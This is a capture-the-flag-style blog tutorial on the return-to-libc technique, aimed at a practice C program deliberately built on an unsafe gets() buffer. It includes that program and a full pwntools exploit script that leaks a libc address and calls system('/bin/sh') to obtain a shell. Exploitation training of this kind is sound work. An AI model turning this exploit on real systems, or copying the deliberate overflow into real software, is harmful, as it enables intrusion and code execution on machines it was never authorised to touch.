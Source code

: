 ```yaml
---
layout: post
title:  "Return to libc attack"
date:   2020-01-26 #13:52:01
categories: ctf
description: this article explains about return to libc attack.
tags: pwn ret2libc stack
---
```


if we can control instruction pointer , it possible to us to doing this attack.
this method can be used even the target machine have aslr and pie enabled, since we can
leak libc function and calculate it with some offset. we can use this code :

{% highlight c %}
#include <stdio.h>

int main()
{
    char buf[200]; // limitation
    printf("+-------------------------------------------+\n");
    printf("|            developed by tripoloski   2019 |\n");
    printf("|  how to :                                 |\n");
    printf("|           - leaking libc                  |\n");
    printf("|           - calculate to got shell        |\n");
    printf("+-------------------------------------------+\n");
    printf("buff > ");
    gets(&buf); // bug in here
    return 0;
}
{% endhighlight %}

you can get the binary from my repository [here](https://github.com/tripoloski1337/learn-to-pwn/tree/master/defeat_aslr)

i assume you already know about buffer overflow vulnerability. firstly we need to
find the offset to overwrite instruction pointer , i use gdb-gef to do dynamic analysis
you can find gdb-gef [here](https://github.com/hugsy/gef). to find the offset i use pattern
to automatic calculate the offset

<img src="/images/ret2libc/2020-01-26-141108_901x750_scrot.png" />

the offset to overwrite eip is 208 bytes , so we need 208 bytes padding to be able to overwrite eip.
now let's find puts@plt by using objdump

<img src="/images/ret2libc/2020-01-26-141615_423x133_scrot.png"/>

and now let's find libc function by using readelf

<img src="/images/ret2libc/2020-01-26-141731_455x194_scrot.png" />

we will use printf , so now we will leak printf address. our exploit should be look
like this
{% highlight python %}
  p = "A" * 208
  p += p32(puts) # puts plt from objdump
  p += p32(main)  # you can find main like puts using objdump
  p += p32(printf) # printf from readelf
{% endhighlight %}

the binary will jump back to main function after leak printf , its like
{% highlight c %}
puts(&printf)
main()
{% endhighlight %}

now we can grab that leaked address and calculate it to system offset , and send another exploit that contains
system() and string "/bin/sh" , our full exploit will look like this

{% highlight python %}
from pwn import *
r = process("./lib")
libc = ELF("/lib/i386-linux-gnu/libc.so.6")
def main():
	puts = 0x08049050
	printf = 0x0804c00c
	main = 0x08049182
	p = "A" * 208
	p += p32(puts)
	p += p32(main)
	p += p32(printf)
	r.sendline(p)
	r.recvuntil("buff > ")
	printf_leak = u32(r.recv(4))
	log.info("leaked printf glibc : %s " % hex(printf_leak) )

	libc_base = printf_leak - libc.symbols['printf']
	libc_system = libc_base + libc.symbols['system']
	binsh_str = libc_base + libc.search("/bin/sh").next()

	q = "A" * 208
	q += p32(libc_system)
	q += p32(00)
	q += p32(binsh_str)

	r.sendline(q)
	r.interactive()

	r.interactive()

if __name__ == '__main__':
	main()

{% endhighlight %}
